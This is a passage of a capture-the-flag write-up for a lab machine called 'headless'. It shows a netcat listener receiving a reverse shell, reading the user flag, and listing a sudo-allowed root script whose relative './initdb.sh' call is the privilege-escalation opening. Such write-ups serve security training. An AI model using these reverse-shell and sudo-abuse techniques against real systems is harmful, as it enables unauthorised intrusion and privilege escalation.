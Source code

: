 ```bash
nc -vnlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.8 45906
bash: cannot set terminal process group (1359): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ cd ~
cd ~
dvir@headless:~$ ls
ls
app
geckodriver.log
user.txt
dvir@headless:~$ cat user.txt
cat user.txt
d031f24e9a----------------------
```

# Root

Common enum gave me the next trajectory with sudo l.

```bash
dvir@headless:~$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

```bash
dvir@headless:~$ file /usr/bin/syscheck
file /usr/bin/syscheck
/usr/bin/syscheck: Bourne-Again shell script, ASCII text executable
dvir@headless:~$ cat /usr/bin/syscheck
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```